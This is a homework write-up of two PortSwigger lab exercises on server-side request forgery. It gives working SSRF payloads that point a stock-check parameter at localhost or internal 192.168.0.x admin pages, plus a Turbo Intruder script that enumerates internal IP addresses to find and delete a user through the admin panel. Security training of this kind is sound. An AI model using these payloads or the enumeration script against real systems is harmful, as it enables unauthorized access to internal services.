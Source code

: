 # Homework 10. Server-side attacks. Part 3

## SSRF

### Task 1. Basic SSRF against the local server

The [lab](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost)

The target web application requests third-party stocks to get product number.  
The stock url is passed as request parameter, so it  can be changed to:

```bash
http://localhost/admin
```

![lab1-request-1](lab1-request-1.png)

The server responded with admin page:

![lab1-response-1](lab1-resposne-1.png)

From the page source take `Delete` button url:

![lab1-path](lab1-path.png)

And execute `stock` request again with this path:

![lab1-request-2](lab1-request-2.png)

The lab is solved 🎉

![lab1-solved](lab1-solved.png)

### Task 2. Basic SSRF against another back-end system

The [lab](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)

This time the admin panel located on another server within private network `192.168.0.X`.

First of all we have to find the server ip address.
It could by last ip octet enumeration from 1 to 255.  
I've used `Turbo Intruder` Burp extension for that with configuration:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=1000,
                           pipeline=False,
                           engine=Engine.THREADED
                           )
                           
    for i in range(1, 256):
         engine.queue(target.req, i)

def handleResponse(req, interesting):
    table.add(req)
```

and request:

```http
POST /product/stock HTTP/2
Host: 0a52007003236dcd8961fefc00930069.web-security-academy.net
Cookie: session=UytULELImCJe72T6XyQ7ZxPlAqvVzFkS
Content-Length: 96
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Content-Type: application/x-www-form-urlencoded
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: */*
Origin: https://0a52007003236dcd8961fefc00930069.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a52007003236dcd8961fefc00930069.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: 234.35.45.2
Priority: u=1, i

stockApi=http://192.168.0.%s:8080/admin
```

The server is located on `192.168.0.144`

![lab2-response-1](lab2-response-1.png)

Take `Delete` button path from page source:

![lab2-path](lab2-path.png)

And execute `stock` request with with path as `stockApi`:

![lab2-request-2](lab2-request-2.png)

The lab is solved 🎉

![lab2-solved](lab2-solved.png)
